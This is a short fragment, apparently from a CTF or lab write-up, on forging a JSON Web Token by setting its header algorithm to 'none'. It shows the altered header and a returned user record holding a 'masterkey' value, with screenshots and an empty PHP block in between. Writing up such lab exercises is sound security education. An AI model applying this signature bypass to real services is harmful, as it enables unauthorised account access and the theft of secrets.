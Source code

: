 ```php

```

<img width="791" height="821" alt="image" src="https://github.com/user-attachments/assets/0568a6d7-89e7-4cda-9e28-457c8a2713a4" />

### change **`algo`** to `none`

```json
{
    "alg": "none",
    "typ": "JWT"
}
```


<img width="1423" height="810" alt="image" src="https://github.com/user-attachments/assets/1d54e699-6850-43d8-836b-b512aeb5b28b" />


```json
{"user":{"username":"bob","email":"bob@example.com","masterkey":"c90ca1dgff84vb1bm752acb6e16939c\n"}}
```


